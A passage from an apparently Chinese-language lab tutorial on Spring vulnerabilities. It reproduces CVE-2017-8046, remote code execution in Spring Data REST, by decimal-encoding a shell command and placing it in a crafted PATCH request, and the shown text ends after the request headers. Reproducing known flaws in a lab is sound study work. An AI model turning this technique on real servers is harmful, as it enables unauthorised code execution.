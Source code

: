 官方已经发布了新版本，请受影响的用户及时更新升级至最新的版本来防护该漏洞。官方同时建议用户应该更改数据绑定的默认设置来确保提交的表单信息符合要求来规避类似恶意行为。参考链接:

>  **https://pivotal.io/security/cve-2017-4971**

对于这个漏洞的底层分析文章，大家可以看看这篇：https://paper.seebug.org/322/

### 3.Spring Data Rest远程命令执行命令(CVE-2017-8046)

#### 漏洞简介

Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-
rest服务器，通过构造好的JSON数据来执行任意Java代码。

#### 影响版本

    
    
    Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3  
    Spring Boot version < 2.0.0M4  
    Spring Data release trains < Kay-RC3  
    

#### 漏洞验证

开启漏洞环境：

![](https://gitee.com/fuli009/images/raw/master/public/20210903083049.png)image-20210829212225888![](https://gitee.com/fuli009/images/raw/master/public/20210903083050.png)image-20210829212307609

看到 json格式的返回值，说明这是一个 Restful风格的API服务器。

访问如下url，如果有下面回显，则说明存在该漏洞：

    
    
    http://192.168.173.144:8080/customers/1  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083051.png)image-20210829212445500

#### 漏洞复现

bp抓包，并且使用PATCH请求来修改：

![](https://gitee.com/fuli009/images/raw/master/public/20210903083052.png)image-20210829213412995

创建文件touch /tmp/zcc的poc，需要对其进行十进制编码：

    
    
    ",".join(map(str, (map(ord,"touch /tmp/zcc"))))  
      
    '116,111,117,99,104,32,47,116,109,112,47,122,99,99'  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083054.png)image-20210829213806596

将该编码写入poc，放入请求包，注意json格式的poc上面留一个空行，Content-Type: 为application/json-patch+json

    
    
    PATCH /customers/1 HTTP/1.1  
    Host: localhost:8080  
    Accept-Encoding: gzip, deflate  
    Accept: */*  
    Accept-Language: en  
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)  
    Connection: close  
    Content-Type: application/json-patch+json  
    Content-Length: 201  
      